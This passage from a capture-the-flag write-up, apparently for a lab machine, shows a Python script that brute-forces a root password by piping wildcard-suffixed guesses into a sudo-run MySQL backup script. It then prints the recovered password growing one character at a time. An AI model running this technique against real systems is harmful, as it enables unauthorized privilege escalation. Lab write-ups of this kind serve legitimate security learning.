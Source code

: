 I used chatGPT to create this python code →

```python
import string
import subprocess

def run_command(command):
    return subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

def find_password():
    all = list(string.ascii_letters + string.digits)
    password = ""
    found = False # This is a flag variable to indicate whether the password is found or not
    while not found: # This is the condition for the loop to repeat
        for character in all:
            output = run_command(f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh")
            if "Password confirmed!" in output:
                password += character
                print(password)
                break
        else: # This is executed when the for loop ends without breaking
            found = True # This changes the flag variable to stop the while loop
    return password

password = find_password()
```
{: .nolineno}
{: .nolineno}
{: file='brute.py'}

Now lets see the result of this →

```bash
joshua@codify:~$ python3 brute.py 
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
joshua@codify:~$
```
{: .nolineno}
{: .nolineno}

